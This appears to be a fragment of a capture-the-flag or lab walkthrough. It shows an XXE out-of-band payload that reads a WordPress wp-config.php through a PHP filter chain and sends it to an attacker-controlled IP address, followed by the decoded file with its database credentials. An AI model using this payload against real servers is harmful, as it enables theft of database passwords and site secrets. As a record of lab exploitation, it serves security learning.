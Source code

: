 ```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.2.127.225:80/?p=%file;'>" >
```

- Decode the base64 and raw inflate to see the contents

```
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpressdb2' );

/** MySQL database username */
define( 'DB_USER', 'thedarktangent' );

/** MySQL database password */
define( 'DB_PASSWORD', 'sUp3rS3cret132' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
```
